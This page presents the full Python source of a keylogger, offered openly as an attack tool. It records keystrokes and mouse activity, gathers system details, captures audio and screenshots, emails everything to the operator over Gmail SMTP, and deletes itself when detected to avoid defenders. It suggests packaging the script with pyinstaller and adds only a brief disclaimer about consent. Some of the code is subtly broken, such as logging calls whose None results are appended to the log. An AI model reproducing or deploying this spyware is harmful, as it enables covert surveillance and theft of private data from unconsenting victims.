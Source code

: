 ```yaml
---
layout: attack
title: Keylogger with sneaky features
---
```


<img height="150" align="left" src="/images/python-key-logger.png"> 
This Python script is an example of a keylogger, a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. This script was created to satisfy my curiosity about possibilities of a key logger in less lines of Python code. To get the maximum, it helps to create a binary out of the code using `pyinstaller`.

### Features:
1. **Key and Mouse Event Logging**: The KeyLogger class has methods to handle keyboard and mouse events. These methods log keystrokes (save_data), mouse movements (on_move), mouse clicks (on_click), and mouse scrolling (on_scroll). The logged data is appended to the log attribute of the KeyLogger instance.
2. **Data Reporting**: The report method sends the collected data via email and then clears the log.
3. **System Information Gathering**: The system_information method collects various system information such as hostname, IP address, processor, system, and machine details.
4. **Audio Recording**: The microphone method records audio for a specified number of seconds and sends the recording via email.
5. **Screenshot Capturing**: The screenshot method captures a screenshot and sends it via email.
6. **Self defense**: The keylogger deletes itself upon detection to avoid leakage of the email or collection of IoCs by a defender

Please note that using a keylogger to monitor someone without their explicit consent is illegal and unethical. This script should only be used for educational purposes or legitimate system administration tasks.

<!-- cSpell:disable -->
```python
import logging
import os
import platform
import smtplib
import socket
import threading
import wave
import pyscreenshot
import sounddevice as sd
from pynput import keyboard
from pynput.keyboard import Listener


class KeyLogger:
    def __init__(self, time_interval, email, password):
        self.interval = time_interval
        self.log = "KeyLogger Started..."
        self.email = email
        self.password = password

    def appendlog(self, string):
        self.log = self.log + string

    def on_move(self, x, y):
        current_move = logging.info("Mouse moved to {} {}".format(x, y))
        self.appendlog(current_move)

    def on_click(self, x, y):
        current_click = logging.info("Mouse moved to {} {}".format(x, y))
        self.appendlog(current_click)

    def on_scroll(self, x, y):
        current_scroll = logging.info("Mouse moved to {} {}".format(x, y))
        self.appendlog(current_scroll)

    def save_data(self, key):
        try:
            current_key = str(key.char)
        except AttributeError:
            if key == key.space:
                current_key = "SPACE"
            elif key == key.esc:
                current_key = "ESC"
            else:
                current_key = " " + str(key) + " "

        self.appendlog(current_key)

    def send_mail(self, email, password, message):
        server = smtplib.SMTP('smtp.gmail.com', 587, message.encode("utf8"))
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()

    def report(self):
        self.send_mail(self.email, self.password, "\n\n" + self.log)
        self.log = ""
        timer = threading.Timer(self.interval, self.report)
        timer.start()

    def system_information(self):
        hostname = socket.gethostname()
        ip = socket.gethostbyname(hostname)
        plat = platform.processor()
        system = platform.system()
        machine = platform.machine()
        self.appendlog(hostname)
        self.appendlog(ip)
        self.appendlog(plat)
        self.appendlog(system)
        self.appendlog(machine)

    def microphone(self):
        fs = 44100
        seconds = 10
        obj = wave.open('sound.wav', 'w')
        obj.setnchannels(1)  # mono
        obj.setsampwidth(2)
        obj.setframerate(fs)
        myrecording = sd.rec(int(seconds * fs), samplerate=fs, channels=2)
        obj.writeframesraw(myrecording)
        sd.wait()

        self.send_mail(email="MAIL", password="PASSWORD", message=obj)

    def screenshot(self):
        img = pyscreenshot.grab()
        self.send_mail(email="MAIL", password="PASSWORD", message=img)

    def run(self):
        keyboard_listener = keyboard.Listener(on_press=self.save_data)
        with keyboard_listener:
            self.report()
            keyboard_listener.join()
        with Listener(on_click=self.on_click, on_move=self.on_move, on_scroll=self.on_scroll) as mouse_listener:
            mouse_listener.join()
        if os.name == "nt":
            try:
                pwd = os.path.abspath(os.getcwd())
                os.system("cd " + pwd)
                os.system("TASKKILL /F /IM " + os.path.basename(__file__))
                print('File was closed.')
                os.system("DEL " + os.path.basename(__file__))
            except OSError:
                print('File is close.')

        else:
            try:
                pwd = os.path.abspath(os.getcwd())
                os.system("cd " + pwd)
                os.system('pkill leafpad')
                os.system("chattr -i " +  os.path.basename(__file__))
                print('File was closed.')
                os.system("rm -rf" + os.path.basename(__file__))
            except OSError:
                print('File is close.')


email_address = "YOUR MAIL"
password = "YOUR PASSWORD"

keylogger = KeyLogger(10, email_address, password)
keylogger.run()
```
<!-- cSpell:enable -->